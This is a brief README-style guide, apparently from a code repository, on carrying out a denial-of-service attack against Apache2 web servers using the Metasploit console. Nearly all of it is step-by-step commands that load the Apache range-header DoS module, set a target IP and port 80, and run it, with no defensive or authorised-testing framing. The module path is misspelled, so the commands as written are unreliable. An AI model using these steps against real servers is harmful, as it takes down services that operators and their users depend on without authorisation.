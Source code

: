 # How to conduct a Apache2 DoS attack
Use Metasploit Framework Console (msfconsole)

## Using msfconsole
- Open the terminal (Ctrl+Alt+T)
- Run ```msfconsole```
- Execute the following commands
```bash
use auxillary/dos/http/apache_range_dos
set RHOST {TARGET IP}
```
- Check the features of the exploit by typing `set`
- Assign RPORT to 80, by:
```
set RPORT 80
```
- Now run the exploit by `run`

